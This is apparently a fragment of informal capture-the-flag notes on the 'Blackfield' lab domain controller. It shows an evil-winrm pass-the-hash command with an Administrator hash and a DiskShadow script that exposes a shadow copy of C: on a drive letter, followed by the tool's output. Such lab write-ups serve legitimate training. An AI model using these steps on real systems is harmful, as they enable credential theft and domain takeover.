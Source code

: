 wooo!

`evil-winrm -u Administrator -H '67ef902eae0d740df6257f273de75051' -i 10.10.10.192`

fails....

wtf...

i asked chatgpt as this pwned me and was a total FU lol but it gave me another solution:

ok i got so stuck and looked at write up from oxdf:
create this file vss.dsh:
```
set context persistent nowriters
set metadata c:\programdata\df.cab
set verbose on
add volume c: alias df
create
expose %df% z:
```

make sure to run:
`unix2dos vss.dsh`

i think that is what screwed me as i had a similar script but it kept erroring... 

but then upload to` C:\programdata`

from `C:\Windows\system32`
```
diskshadow /s c:\programdata\vss.dsh
```
```
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  9/9/2025 1:55:30 AM

-> set context persistent nowriters
-> set metadata c:\programdata\df.cab
-> set verbose on
-> add volume c: alias df
-> create

Alias df for shadow ID {c7b46f72-d9a8-43d2-85dd-bac16fb050ed} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {377b14ae-95bc-4bd5-8b95-7fa799024fd6} set as environment variable.
Inserted file Manifest.xml into .cab file df.cab
Inserted file Dis1A5F.tmp into .cab file df.cab

Querying all shadow copies with the shadow copy set ID {377b14ae-95bc-4bd5-8b95-7fa799024fd6}

	* Shadow copy ID = {c7b46f72-d9a8-43d2-85dd-bac16fb050ed}		%df%
		- Shadow copy set: {377b14ae-95bc-4bd5-8b95-7fa799024fd6}	%VSS_SHADOW_SET%
		- Original count of shadow copies = 1
		- Original volume name: \\?\Volume{6cd5140b-0000-0000-0000-602200000000}\ [C:\]
		- Creation time: 9/9/2025 1:55:32 AM
		- Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
		- Originating machine: DC01.BLACKFIELD.local
		- Service machine: DC01.BLACKFIELD.local
		- Not exposed
		- Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
		- Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %df% z:
-> %df% = {c7b46f72-d9a8-43d2-85dd-bac16fb050ed}
The shadow copy was successfully exposed as z:\.
->
```
